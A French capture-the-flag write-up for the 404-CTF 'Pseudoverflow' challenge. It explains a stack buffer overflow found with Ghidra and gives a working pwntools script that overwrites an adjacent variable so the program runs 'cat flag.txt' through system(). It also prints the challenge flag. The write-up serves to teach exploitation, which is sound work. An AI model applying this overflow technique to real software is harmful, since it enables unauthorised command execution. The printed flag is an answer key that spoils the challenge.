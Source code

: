 # Write-Up 404-CTF : Pseudoverflow

__Catégorie :__ Exploitation de binaires - Intro

**Enoncé :**

![Enoncé](images/enonce.png)

**Résolution :**

Dans cette introduction à l'exploitation de binaire, nous devons réussir à lire le fichier `flag.txt` en exploitant le programme `course`.

Comme aucune source n'est fournie, je décide donc de le décompiler avec Ghidra.

![Image1](images/image1.png)

C'est une fonction `main` toute simple qui vient lire une entrée utilisateur et vérifie ensuite si une variable interne est égale à `gagne`. Si les chaînes sont égales, alors la fonction win est appelée sur le buffer. La fonction `win()` ne fait qu'un appel à `system()`, une fonction en C permettant d'exécuter des commandes bash.

Malheureusement, ce n'est pas notre entrée qui est comparée à `gagne`. En revanche, on remarque quelque chose d'étonnant : le buffer contenant l'entrée utilisateur fait 106 octets mais nous sommes autorisés à envoyer jusqu'à 256 octets. Nous allons donc exploiter cet overflow pour écraser le contenu de la variable `local_e` et écrire `gagne` à la place. Par chance, `buffer` et `local_e` sont déclarées l'une à la suite de l'autre. Leur enplacement mémoire sera donc contigu.

Etat de la mémoire à la déclaration :

```
|         buffer (106 o.)         | local_e (4 o.) | local_a (2 o.) |
```

Etat après lecture de stdin :

```
|      "cat flag.txt" + padding      | "gagn" | "e" |
```

Il n'y a plus qu'à écrire un script Python avec pwntools pour mettre en oeuvre l'exploit.

```python
from pwn import *

context.log_level = "debug"

lenOverflow = 106
cmd = b"cat flag.txt\x00" # Null byte to delimit command from padding
payload = cmd + b'A' * (lenOverflow - len(cmd)) + b'gagne\x00\n'

# p = process(['./course']) # Local test
p = remote("challenges.404ctf.fr", 31958) 

p.recvuntil(b"pseudo :\n")
p.send(payload)
data = p.recvall(timeout=2)
print(data.decode())
```

**Flag :** `404CTF{0v3rfl0w}`